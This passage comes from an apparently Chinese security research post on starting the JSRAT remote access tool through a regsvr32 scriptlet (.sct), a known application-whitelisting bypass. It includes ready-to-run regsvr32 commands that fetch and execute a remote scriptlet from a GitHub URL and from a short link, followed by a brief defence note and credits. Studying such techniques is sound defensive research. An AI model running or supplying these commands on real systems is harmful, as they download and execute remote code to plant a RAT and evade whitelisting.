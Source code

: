 而通过sct来启动JSRAT恰恰可以解决这个问题，已将利用代码上传至github：

[https://github.com/3gstudent/SCTPersistence/blob/master/ShortJSRAT.sct](https://github.com/3gstudent/SCTPersistence/blob/master/ShortJSRAT.sct)

通过regsvr32执行服务器上的ShortJSRAT.sct文件

ShortJSRAT.sct文件包含JSRAT的启动代码

最终优化的JSRAT启动代码如下：

```
regsvr32 /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ShortJSRAT.sct scrobj.dll

```

如果觉得网址过长，可使用短地址来代替上述文件URL，短地址如下：

```
regsvr32 /s /n /u /i:https://goo.gl/ijB12k scrobj.dll

```

**注：**

该短地址是通过google url shortener生成，因此国内用户无法直接访问，换用其他平台的短地址服务就好。

0x07 防御
=======

* * *

综上，这个技巧的实现需要如下限制条件：

```
能在系统上可以执行代码

```

所以应用的前提是已经获得了系统的访问权限，因此只要保护好自身系统的安全就不会被这种类似的方式攻击。至于Windows AppLocker，无法防御sct的应用。

0x08 小结
=======

* * *

引用Casey博客的一句话:

([http://subt0x10.blogspot.com/2016/04/setting-up-homestead-in-enterprise-with.html](http://subt0x10.blogspot.com/2016/04/setting-up-homestead-in-enterprise-with.html))**Well, now that everyone has eyes on PowerShell...Lets see what we can do with JavaScript!**

再次感谢CaseySmith@subTee对我研究上的帮助，十分感谢。有待研究的细节还有很多，如果你对此感兴趣，可以一起交流。

更多学习资料：

CaseySmith@subTee介绍利用SCT绕过白名单限制的博客地址，值得学习： ([http://subt0x10.blogspot.jp/2016/04/bypass-application-whitelisting-script.html](http://subt0x10.blogspot.jp/2016/04/bypass-application-whitelisting-script.html))